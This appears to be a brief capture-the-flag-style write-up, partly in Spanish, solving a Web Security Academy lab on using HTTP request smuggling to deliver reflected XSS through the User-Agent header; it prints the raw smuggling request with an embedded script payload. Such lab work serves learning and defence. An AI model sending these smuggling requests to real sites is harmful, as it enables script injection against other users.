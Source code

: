 ```yaml
---
layout: default
title: 10 - Exploiting HTTP request smuggling to deliver reflected XSS
---
```

The application is also vulnerable to reflected XSS via the `User-Agent` header.

```HTML
GET /post?postId=2 HTTP/2
Host: 0a19001b047e04e7802003d600970016.web-security-academy.net
Cookie: session=OV5Z0JyTiElQ1oyMeFOqY6o1zuR08KSd
User-Agent: "><script>alert()</script>
```

Lo hacemos así :

```HTML
POST / HTTP/1.1
Host: 0a19001b047e04e7802003d600970016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Transfer-Encoding: chunked

0

GET /post?postId=2 HTTP/1.1
Host: 0a19001b047e04e7802003d600970016.web-security-academy.net
User-Agent: "><script>alert(1)</script>
X-Ignore: X
```
